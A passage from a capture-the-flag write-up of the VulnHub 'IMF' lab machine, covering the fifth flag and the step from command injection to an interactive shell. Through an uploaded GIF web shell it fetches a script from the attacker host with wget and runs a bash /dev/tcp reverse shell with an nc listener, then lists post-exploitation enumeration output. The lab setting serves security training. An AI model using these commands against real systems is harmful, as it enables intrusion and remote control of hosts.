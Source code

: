 ![writeup.exploitation.steps.1.2](Box%20Write-ups/vulnhub.imf/screenshot13.png)  

2\. While exploring the local directory `/var/www/html/imfadministrator/uploads` we find a `flag5_abc123def.txt` file with the fifth flag:  
``` {.python .numberLines}
cat flag5_abc123def.txt
  flag5{YWdlbnRzZXJ2aWNlcw==}
    b64d "YWdlbnRzZXJ2aWNlcw=="
      agentservices

```

3\. We proceeded to convert our command execution payload into a fully interactive shell. We had to upload a bash reverse shell script and execute it via command injection as other methods did not work:  
``` {.python .numberLines}
sharehttp 9090
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=wget%20http://192.168.92.179:9090/shell.sh
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=cat%20shell.sh
  GIF89a /bin/bash -i >& /dev/tcp/192.168.92.179/443 0>&1
nc -nlvp 443
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=bash%20shell.sh

```

![writeup.exploitation.steps.3.1](Box%20Write-ups/vulnhub.imf/screenshot14.png)  

![writeup.exploitation.steps.3.2](Box%20Write-ups/vulnhub.imf/screenshot15.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@imf> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@imf>  
www-data@imf> uname
Linux imf 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
www-data@imf>  
www-data@imf> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:0c:29:2a:cd:d9
      inet addr:192.168.92.178  Bcast:192.168.92.255  Mask:255.255.255.0
      inet6 addr: fe80::20c:29ff:fe2a:cdd9/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:3698 errors:0 dropped:0 overruns:0 frame:0
      TX packets:373 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:758609 (758.6 KB)  TX bytes:34650 (34.6 KB)
www-data@imf>  
www-data@imf> users
root
setup
```
